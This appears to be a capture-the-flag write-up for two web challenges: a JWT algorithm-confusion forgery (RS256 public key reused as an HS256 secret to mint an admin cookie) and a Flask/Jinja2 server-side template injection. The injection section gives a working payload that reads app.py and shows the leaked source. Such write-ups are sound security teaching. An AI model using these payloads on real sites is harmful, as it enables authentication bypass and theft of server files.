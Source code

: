 ## What it is

A website with a button that requires an admin jwt cookie to give the flag.

We know the jwt cookie uses RS256 (jwt algos: https://stackoverflow.com/a/39239395/12864941).

We can download the public key (see ```serverkey.pub```).

## Solution

(https://debricked.com/blog/json-web-tokens/)
(see solve.js)

We can use an algorithm confusion attack.

We create an admin cookie with HS256, using the server's public key as a secret key.

When the server tries to verify the token was signed with its private key, it will use its public key. But since our token is HS256, it will think the secret keys match.

flag: ```BFS{!W0W_muCh_s3cURe_V3rY_jWt!}``` 

# ssti1

## What it is

A website made with flask that uses jinja2 for templating.

It takes a name in an input field and displays it.

## Solution

https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/

From a string literal you can get the base class and open a file.

To get the content of ```app.py```:
```py
{{'abc'.__class__.__base__.__subclasses__()[96].__subclasses__()[0].__subclasses__()[0]('app.py').read()}}
```

We get:
```py
b'from flask import Flask, request, render_template_string, config\n\n\napp = Flask(__name__)\n\napp.config["FLAG"] = "BFS{WelC0m3_To_Th1s_F1rSt_PyTh0n_Vuln3rab1l1ty}"\n\n\n@app.route("/")\ndef index():\n    name = request.args.get("username", "guest")\n    template = open("./index.html").read().format(name)\n    return render_template_string(template)\n\n\nif __name__ == "__main__":\n    app.run()\n'
```

After formatting:
```py
from flask import Flask, request, render_template_string, config

app = Flask(__name__)

app.config["FLAG"] = "BFS{WelC0m3_To_Th1s_F1rSt_PyTh0n_Vuln3rab1l1ty}"

@app.route("/")
def index():
	name = request.args.get("username", "guest")
	template = open("./index.html").read().format(name)
	return render_template_string(template)

if __name__ == "__main__":
    app.run()
```